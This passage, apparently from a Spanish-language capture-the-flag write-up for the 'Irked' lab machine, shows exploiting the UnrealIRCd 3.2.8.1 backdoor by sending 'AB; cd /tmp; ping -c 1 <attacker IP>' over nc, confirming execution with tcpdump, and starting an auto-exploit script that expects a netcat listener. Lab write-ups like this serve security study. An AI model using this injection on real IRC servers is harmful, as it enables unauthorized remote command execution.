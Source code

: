 ```bash
UnrealIRCd 3.2.8.1 - Local Configuration Stack Overflow                                      | windows/dos/18011.txt
UnrealIRCd 3.2.8.1 - Remote Downloader/Execute                                               | linux/remote/13853.pl
UnrealIRCd 3.x - Remote Denial of Service                                                    | windows/dos/27407.pl
-------------------------------------------------------------------------------------------- ---------------------------------
```
Vemos que si tenemos cositas ` linux/remote/13853.pl`
Intentamos hacer uso de exploit pero no resulta funcional. Asique procedemos a hecharle un ojo a lo que hace para intentar nosotros de forma manual
probar a repetirlo.

# Ganando Acceso atraves del IRC
```bash
# nc 10.10.10.117 6697                                                                                                                                        1 ⚙
:irked.htb NOTICE AUTH :*** Looking up your hostname...
```
Comando a injecctar en el IRC visto en exploit
```bash
AB; cd /tmp; ping -c 1 10.10.16.241
```
Tal que asi procedemos
```bash
# nc 10.10.10.117 6697
:irked.htb NOTICE AUTH :*** Looking up your hostname...
:irked.htb NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead
:irked.htb 451 AB; :You have not registered
AB; cd /tmp; ping -c 1 10.10.16.241                             Lo injectamos una vez
:irked.htb 451 AB; :You have not registered

AB; cd /tmp; ping -c 1 10.10.16.241                             Lo injectamos una 2veces
:irked.htb 451 AB; :You have not registered
AB; cd /tmp; ping -c 1 10.10.16.241                             Lo injectamos una 3veces
:irked.htb 451 AB; :You have not registered
```
Nos ponemos a la escucha para ver si recibimos una trace icmp, para ello usamos la herramienta tcpdump
```bash
# tcpdump -ni tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
12:03:11.212428 IP 10.10.10.117 > 10.10.16.241: ICMP echo request, id 1402, seq 1, length 64
12:03:11.212438 IP 10.10.16.241 > 10.10.10.117: ICMP echo reply, id 1402, seq 1, length 64
12:03:17.879102 IP 10.10.10.117 > 10.10.16.241: ICMP echo request, id 1404, seq 1, length 64
12:03:17.879110 IP 10.10.16.241 > 10.10.10.117: ICMP echo reply, id 1404, seq 1, length 64
```
Vemos que lo recibimos correctamente.
Por lo tanto ya que vemos que tenemos un RCE en las manos, procedo a realizarme un script para automatizarme la intrusion a la maquina victima
```bash
# cat AutoPwn_UnrealIRCd.sh                                                                                                                        1 ⚙
#!/bin/bash
# Se necesita poner una session de nc a la escucha por el puerto que indiquemos

function ctrl_c(){
        echo -e "\n[*] Saliendo ...\n"
        exit 1
}

# Ctrl + C 
```